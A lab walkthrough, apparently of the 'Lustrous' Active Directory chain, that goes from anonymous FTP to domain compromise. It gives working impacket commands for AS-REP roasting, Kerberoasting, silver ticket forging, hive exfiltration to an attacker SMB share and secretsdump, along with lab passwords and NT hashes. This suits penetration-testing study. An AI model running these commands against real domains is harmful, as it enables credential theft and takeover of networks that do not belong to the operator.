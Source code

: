 
			![[CHAINS___/LUSTROUS/Cover_.png]]


### RECON

```
Nmap scan report for 10.10.174.149
Host is up (0.19s latency).
Not shown: 985 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_12-26-21  11:50AM       <DIR>          transfer
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-07-10 18:30:05Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: lustrous.vl0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=LusDC.lustrous.vl
| Subject Alternative Name: DNS:LusDC.lustrous.vl
| Not valid before: 2021-12-26T09:46:02
|_Not valid after:  2022-12-26T00:00:00
|_http-title: Not Found
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: lustrous.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=LusDC.lustrous.vl
| Not valid before: 2024-07-09T18:26:34
|_Not valid after:  2025-01-08T18:26:34
| rdp-ntlm-info: 
|   Target_Name: LUSTROUS
|   NetBIOS_Domain_Name: LUSTROUS
|   NetBIOS_Computer_Name: LUSDC
|   DNS_Domain_Name: lustrous.vl
|   DNS_Computer_Name: LusDC.lustrous.vl
|   DNS_Tree_Name: lustrous.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-07-10T18:30:27+00:00

```


```
Nmap scan report for 10.10.174.150
Host is up (0.19s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=LusMS.lustrous.vl
| Not valid before: 2024-07-09T18:26:31
|_Not valid after:  2025-01-08T18:26:31
|_ssl-date: 2024-07-10T18:31:10+00:00; -2s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: LUSTROUS
|   NetBIOS_Domain_Name: LUSTROUS
|   NetBIOS_Computer_Name: LUSMS
|   DNS_Domain_Name: lustrous.vl
|   DNS_Computer_Name: LusMS.lustrous.vl
|   DNS_Tree_Name: lustrous.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-07-10T18:30:31+00:00

```




### INITIAL_ACCESS


![[ftp_anonymous.png]]

That file wasn't helpful , but we got bunch of usernames !


```zsh
impacket-GetNPUsers -no-pass -usersfile users_ lustrous.vl/ -dc-ip 10.10.174.149
```


![[ben_cox_hash.png]]


Cool ! We got credential of domain user , Now there opened alot of possibilities for enumerations !


Lets Run Bloodhound !

```zsh
bloodhound-python --domain lustrous.vl --username ben.cox --password 'Trinity1' -ns 10.10.174.149 --collectionmethod all --zip --dns-tcp
```



![[LUSMS_WINRM.png]]


But We gotta decrypt the password file , that has been encrypted !

![[Encrypted_.png]]


FOLLOW THE STEP : [Blog](https://systemweakness.com/powershell-credentials-for-pentesters-securestring-pscredentials-787263abf9d8)

```powershell
$user = "LUSMS\Administrator"

$pass = "01000000d08c9ddf0115d1118c7a00c04fc297eb01000000d4ecf9dfb12aed4eab72b909047c4e560000000002000000000003660000c000000010000000d5ad4244981a04676e2b522e24a5e8000000000004800000a00000001000000072cd97a471d9d6379c6d8563145c9c0e48000000f31b15696fdcdfdedc9d50e1f4b83dda7f36bde64dcfb8dfe8e6d4ec059cfc3cc87fa7d7898bf28cb02352514f31ed2fb44ec44b40ef196b143cfb28ac7eff5f85c131798cb77da914000000e43aa04d2437278439a9f7f4b812ad3776345367" | ConvertTo-SecureString

$cred = New-Object System.Management.Automation.PSCredential($user, $pass)

$cred.GetNetworkCredential() | fl
```

We get the credentials of Administrator !

![[Admin_Creds.png]]


![[Pwned_LuSMS.png]]



```zsh
impacket-GetUserSPNs lustrous.vl/ben.cox:Trinity1 -dc-ip 10.10.174.149 -request
```
 

![[TGS.png]]


![[Cracking_Creds.png]]

Only svc_web hash was cracked ! Progress , Lets see the privilege of this account ! 



Services in domains are often run by service accounts instead of using local accounts like SYSTEM. Since the account is called svc_web we assume the application pool on the webserver is run by this user. This gives us an interesting attack vector. We can generate a silver ticket using the ntlm hash of svc_web & impersonate any user against the web application.


As Tony.Ward is Backup Operator , high privilege user , we need to create silver ticket and see whats on the page.


![[Tony_Property.png]]

[ We can get domain-sid , user-id from blood-hound  and nthash is just ntlm hash of svc_web credentials we got !]


```zsh
impacket-ticketer -nthash E67AF8B3D78DF5A02EB0D57B6CB60717 -domain-sid S-1-5-21-2355092754-1584501958-1513963426 -domain lustrous.vl -spn HTTP/lusdc.lustrous.vl -user-id 1114 tony.ward


export KRB5CCNAME=tony.ward.ccache 

firefox

START FIREFOX from that session , and add http://lusdc.lustrous.vl in network.negotiate-auth.trusted-uris

```



![[config_firefox.png]]

Now we can see the contents of that note !


![[Note_Tony.png]]



In Simple Terms , We impersonated tony.ward with the hash of svc_web which is the service account for web services , which only used kerberos as authentication !




### PRIVILEGE_


Now as we got credentials of tony , We can extract SAM , SYSTEM and SECURITY file from the domain controller !


![[Tony_Backup.png]]



Can Use ,  [ impacket-reg from linux easy peasy ! ]

https://github.com/mpgn/BackupOperatorToDA




```powershell
.\BackupOperatorToDA.exe -u tony.ward -p U_cPVQqEI50i1X -d lustrous.vl -t \\LUSDC.lustrous.vl -o \\10.8.0.148\share\
```


```zsh
impacket-smbserver -smb2support share .
```


![[Backup_Operator.png]]

```zsh
impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY LOCAL
```

![[LOCAL_SecretsDump.png]]


We dumped the local administrator hash, if the domain administrator password would be the same we would be done here. If not, we can use the machine account hash to do a proper secretsdump now and use any domain admin to log in:


```zsh
impacket-secretsdump lustrous.vl/'LUSDC$'@10.10.174.149 -hashes :eb2637e0b69eb988e8cd9172ea802388
```


![[That's IT.png]]



![[PWNED__.png]]



